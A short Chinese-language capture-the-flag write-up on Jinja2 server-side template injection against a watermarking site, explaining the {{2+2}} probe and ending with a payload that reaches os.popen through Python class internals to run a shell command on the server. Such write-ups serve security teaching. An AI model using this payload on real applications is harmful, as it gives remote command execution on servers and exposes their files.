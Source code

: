 # 关于jinja2
jinja2是一个类似php smart引擎的视图模板，可以将内容动态的插入到html中去详细可以看一下[Jinja2 模板的学习](https://www.jianshu.com/p/8fc66b083ecd)

# 关于jinja2模板注入
这是一种代码注入，常见的测试手法是在可以回显的地方插入`{{2+2}}`如果返回了4就说明可能存在jinja模板注入，这种代码注入类似xss，但是注入的代码是执行在服务器端的。

# ctf
**地址： ** http://106.75.72.168:8888

## 解题思路

> 题目简介：这是一个可以给你的图片打赏你名字的水印的网站。先注册，登录，然后有一个donne操做就是将你上传的图片url转换成带有你的名字的水印的图片。这样回显的条件就满足了，然后当你上传二的是一个错误的不是指向图片的url时，就会出现大量报错，其中就包含了后台使用的是jinja模板；

**思路： ** 上传暗色背景的图片，尝试注册{{100+100}}测试回显
![title](https://i.loli.net/2019/04/27/5cc3acab03ba0.png)

可以看到成功了，然后利用jinja可以访问python的内部方法和内置变量

所以最后的payload
`aa{{''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals['linecache'].__dict__['os'].__dict__['popen']('cat flag*').read()}}`